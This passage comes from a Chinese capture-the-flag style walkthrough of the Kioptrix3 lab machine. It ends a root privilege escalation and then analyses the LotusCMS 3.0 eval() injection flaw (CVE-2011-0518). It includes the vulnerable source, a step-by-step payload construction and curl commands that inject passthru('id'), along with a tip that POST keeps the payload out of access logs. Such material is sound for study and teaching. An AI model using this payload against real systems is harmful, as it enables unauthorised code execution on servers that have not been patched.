

3. 保存退出后（F2 保存，F10 保存退出），直接生成 Root Shell：

```
loneferret@Kioptrix3:~$ sudo /bin/bash
root@Kioptrix3:~# whoami
root
```



至此，完美还原了靶机作者设计的初衷，提权彻底打穿。

---
# 7. 漏洞原理分析

## 7.1 漏洞概述

- **漏洞名称**：LotusCMS 3.0 eval() Remote Code Execution
- **CVE 编号**：CVE-2011-0518
- **漏洞文件**：`core/lib/router.php`
- **触发条件**：`magic_quotes_gpc = Off`（PHP 默认配置）
- **影响版本**：LotusCMS 3.0

---

## 7.2 漏洞文件源码

漏洞位于 `Router` 类的构造函数，核心逻辑如下：

```php
public function Router() {
    // 从用户输入取值，无过滤
    $page   = $this->getInputString("page", "index");
    $plugin = $this->getInputString("system", "Page");

    if (file_exists("core/plugs/".$plugin."Starter.php")) {
        include("core/plugs/".$plugin."Starter.php");

        // 漏洞触发点：直接将用户输入拼入字符串后 eval 执行
        eval("new ".$plugin."Starter('".$page."');");
    }
    // ...
}
```

`getInputString()` 取值顺序为 GET → POST → Cookie → Session（`GPCS`），两种传参方式均可触发漏洞。虽然内部调用了 `htmlentities()`，但参数使用的是 `ENT_NOQUOTES`，**单引号和双引号均不会被转义**，这是漏洞能被利用的前提条件之一。

---

## 7.3 漏洞根源

漏洞根源在于`core/lib/router.php`这一行拼接：

```php
eval("new ".$plugin."Starter('".$page."');");
```

`eval()` 接收一个字符串参数，将其作为 PHP 代码执行。字符串里可以包含多条用分号分隔的语句，PHP 会逐条全部执行。

当 `$plugin` 为默认值 `Page`、`$page` 为正常值 `index` 时，eval 收到的字符串是：

```php
new PageStarter('index');
```

这是合法的 PHP，仅实例化一个对象。

**问题在于**：`$page` 的值被直接拼入代码模板，没有任何转义或校验。模板结构如下：

```
固定部分:   new PageStarter('    ');
用户输入:                    ↑
                          $page 在这里
```

用户的输入天生被夹在两个单引号之间，看似被"锁住"无法执行代码——但只要能破坏引号结构，就能逃出字符串，注入任意 PHP 语句。

---

## 7.4 payload 构造过程

**目标**：让 eval 执行我们注入的代码，而不只是把它当字符串处理。

以 `passthru('id')` 为例，逐步推导：

### 第一步：尝试直接注入

传入 `page=passthru('id')`，eval 收到：

```php
new PageStarter('passthru('id')');
```

`passthru('id')` 在单引号字符串里，只是普通文字，不会执行。

### 第二步：用 `'` 逃出字符串

传入 `page=index'`，eval 收到：

```php
new PageStarter('index'');
```

左边的 `'` 与我们注入的 `'` 配对，字符串提前结束了。但后面多出一个 `'` 和 `);`，语法报错。

### 第三步：用 `)` 和 `;` 补全第一条语句

传入 `page=index');`，eval 收到：

```php
new PageStarter('index');');
```

第一条语句 `new PageStarter('index');` 在语法上完整了。但模板末尾的 `');` 还留着，语法仍然错误。

### 第四步：插入我们的代码

传入 `page=index');passthru('id');`，eval 收到：

```php
new PageStarter('index');passthru('id');');
```

现在有两条语句，第二条是我们的命令。但末尾 `');` 依然是语法错误。

### 第五步：用 `//` 注释掉模板残留

传入 `page=index');passthru('id');//`，eval 收到：

```php
new PageStarter('index');   // 第①条：正常执行
passthru('id');              // 第②条：执行系统命令
//')                         // 模板残留，被注释掉，不执行
```

`//` 是 PHP 单行注释符，其后所有内容被忽略。模板多出来的 `');` 就此消失，整段代码语法完全合法，两条语句都会被执行。

### payload 各字符对照表

|字符|作用|
|---|---|
|`index`|合法页面名，让 PageStarter 正常实例化，不产生报错|
|`'`|闭合模板中 `Starter('` 的左单引号，逃出字符串|
|`)`|关闭函数调用的括号|
|`;`|结束第一条语句|
|`passthru('id')`|我们注入的代码，执行系统命令|
|`;`|结束注入语句|
|`//`|注释掉模板末尾残留的 `');`，防止语法错误|

---

## 7.5 传参方式

`getInputString()` 同时支持 GET 和 POST，两者均可触发漏洞。实际利用时推荐 POST：

```bash
# GET 方式（参数暴露在 URL，受长度限制）
curl "http://TARGET/lcms/index.php?page=index');passthru('id');//"

# POST 方式（推荐，绕过 URL 长度限制，不记录在 access.log）
curl -s -X POST "http://TARGET/lcms/index.php" \
     --data "page=index');passthru('id');//"
```

MSF 模块（EDB #18565）选择 POST 方式，原因之一是 payload 超过 4000 字节时 GET 会触发 HTTP 414 错误。



---

## 7.6 攻击链总结

```
用户输入（page 参数）
       ↓
getInputString() 原样取出，ENT_NOQUOTES 不转义引号
       ↓
拼入 eval 模板字符串
       ↓
eval() 将拼接结果当作 PHP 代码执行
       ↓
注入的 passthru() 调用系统命令
       ↓
获得 www-data 权限的命令执行
```

漏洞的根源是 **eval 的不安全拼接**，`getInputString` 的无引号过滤是使其可利用的前提条件。两者缺一不可：如果引号被转义，`'` 变成 `\'`，字符串就逃不出去；如果没有 eval，拼接本身不造成危害。

